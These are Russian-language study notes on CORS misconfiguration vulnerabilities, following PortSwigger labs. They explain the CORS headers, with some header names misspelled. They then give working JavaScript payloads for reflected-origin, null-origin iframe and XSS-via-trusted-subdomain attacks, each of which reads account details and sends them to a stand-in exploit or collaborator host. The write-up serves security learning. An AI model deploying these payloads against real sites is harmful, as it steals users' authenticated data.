# Введение 

>**Cross-origin Resource Sharing** - технология современных браузеров, которая позволяет предоставить веб-страницам доступ к ресурсам другого домена.

> **CORS** сравнивает **схему** (протокол передачи данных), **порт** и **домен верхнего уровня.** 
###### Acess-Control-Alow-Origin
Поле, отвечающее за доверенные веб-домены. Если оно настроено неправильно - например подставляется динамически, то это будет уязвимостью.
> Принимает 3 значения: **\***, **\<origin>**, **null**.
###### Acess-Control-Alow-Credentials
Позволяет передавать **cookie** в значении **true** или запрещает в - **false**.
Если сервер настроен с подстановочным знаком " **\*** " в качестве значения заголовка Acess-Control-Alow-Origin, то использование учётных данных не допускается.

###### Acess-Control-Alow-Methods
Указывает допустимые для запроса методы: PUT, POST, OPTIONS.

###### Acess-Control-Alow-Headers
Указывает дополнительные разрешённые заголовки в запросе.

###### Acess-Control-Alow-Credentials
сообщает браузерам, разрешает ли сервер кросс-оригинальные HTTP-запросы, содержащие учетные данные.

###### Acess-Control-Max-Age: \<delta-seconds>
Количество секунд, на которое запрос может быть кеширован. Максимальное значение в Firefox составляет [24 часа](https://dxr.mozilla.org/mozilla-central/rev/7ae377917236b7e6111146aa9fb4c073c0efc7f4/netwerk/protocol/http/nsCORSListenerProxy.cpp#1131) (86400 секунд), в Chromium [10 минут](https://cs.chromium.org/chromium/src/services/network/public/cpp/cors/preflight_result.cc?rcl=43ab0ff8fdcf3a10a89c4d0d0421f461967f2bd5&l=36) (600 секунд). Chromium также определяет значение по умолчанию [5](https://cs.chromium.org/chromium/src/services/network/public/cpp/cors/preflight_result.cc?rcl=43ab0ff8fdcf3a10a89c4d0d0421f461967f2bd5&l=26) секунд. Значение **-1** отменяет кеширование, отправляя предзапрос перед каждым запросом.

### Pre-fight Requests
>![[Pre-fight Requests.png]]
# PortSwigger статья
https://portswigger.net/web-security/cors#what-is-cors-cross-origin-resource-sharing
# Уязвимости
>![[CORS уязвимости.png]]

### CORS при динамической подстановки значения Acess-Control-Alow-Origin
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
Если в значение ответа сервера **Acess-Control-Alow-Origin** динамически подставляется значение запроса **Origin**, то можно использовать **exploit сервер** со следующим пэйлоадом, чтобы получить данные пользователя:

```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain-A/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        var all = this.responseText;
        fetch('https://COLLABORATOR.oastify.com', { method: 'POST', mode: 'no-cors', body: all });
    };
</script>
```

### CORS: Неправильный парсинг заголовка Origin
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
Можно попытаться подставить заголовок **Origin: null** и на **exploit** сервере использовать **iframe**. Если работает заголовок **Origin: null**, то может отработать iframe, ведь он по умолчанию подставляет заголовок Origin: null:
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain-A/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        var all = this.responseText;
        fetch('https://COLLABORATOR.oastify.com', { method: 'POST', mode: 'no-cors', body: all });
    };
</script>"</iframe>
```
Или если сайт, например, готов принимать только **Origin: normal-website.com**, но неправильно проверяет стоку, хакер может попытаться зарегистрировать домен **hackersnormal-website.com** или **normal-website.com.evil-user.net** и отправить запрос с него.

### XSS через доверительные отношения CORS
Даже "правильно" настроенный CORS устанавливает доверительные отношения между двумя источниками. Если сайт доверяет источнику, который уязвим для межсайтового скриптинга (XSS), то злоумышленник может использовать XSS для внедрения JavaScript, который использует CORS для получения конфиденциальной информации с сайта, доверяющего уязвимому приложению.
https://portswigger.net/web-security/cors/lab-breaking-https-attack
Пусть существует уязвимый к XSS ресурс через query параметры: **stock.domain-A.com**, и он является доверенным для **domain-A.com** через **Origin**.
В таком случае мы может использовать на **exploit** сервере следующие нагрузки:
```javascript 
<script> document.location="http://stock.domain-A.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://domain-A/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```
или возьмём ранее созданный пэйлоад:
```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain-A/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        var all = this.responseText;
        fetch('https://COLLABORATOR.oastify.com', { method: 'POST', mode: 'no-cors', body: all });
    };
</script>
```
вырежем `\n` и подставим в `document.location="http://stock.domain-A.com/?productId=...&storeId=1`:
```javascript
<script>
    document.location="http://stock.domain-A.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://domain-A/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {var all = this.responseText; fetch('https://COLLABORATOR', {method: 'POST', mode: 'no-cors', body: all })};%3c/script>&storeId=1"
</script>
```
или в URL кодировки вместо использования **`%3c/script>`**.